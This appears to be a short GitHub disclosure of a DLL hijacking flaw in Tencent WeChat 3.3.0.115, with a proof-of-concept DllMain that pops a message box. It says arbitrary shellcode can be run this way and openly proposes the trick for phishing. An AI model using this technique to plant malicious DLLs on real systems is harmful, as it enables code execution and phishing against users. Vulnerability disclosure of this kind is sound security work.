 #DLL hijacking found in Tencent wechat, version 3.3.0.115

#demonstration

For example:


<h3>BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		MessageBox(NULL, (LPCTSTR)TEXT("1"), (LPCTSTR)TEXT("1"), MB_OK);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{

	}
	return TRUE;
}</h3>

#You can define any code and shellcode to execute in the DLL's entry function!!

#Very simple, we can be used for rights protection or phishing!!!
